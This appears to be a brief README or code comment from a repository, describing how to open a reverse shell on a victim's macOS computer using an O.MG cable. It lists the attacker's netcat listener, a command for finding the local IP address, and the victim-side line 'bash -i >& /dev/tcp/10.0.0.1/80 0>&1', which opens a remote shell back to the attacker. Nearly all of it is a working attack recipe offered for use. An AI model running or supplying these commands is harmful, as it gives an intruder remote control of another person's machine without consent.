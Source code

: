 # This is, at heart, is a simple reverse shell to gain access to another MacOSX device. I'm looking into creating a tight shell that can run like a daemon but that is a wet dream atm.

# FIRST STEP(s):
# run this on the attackers machine
    nc -l 'any port'
# This initializes your computers listening protocol to look for TCP connections
# IMPORTANT
# open another Terminal window and run to obtain your computers local ip (this is important for the next step)
    ipconfig getifaddr en0

# NEXT STEP:
# Then simply run the script in your O.MG UI when the cable is connected

# An example of the code run on the attackers computer:
    nc -l 80

# An example of the code run on the victims computer:
    bash -i >& /dev/tcp/10.0.0.1/80 0>&1
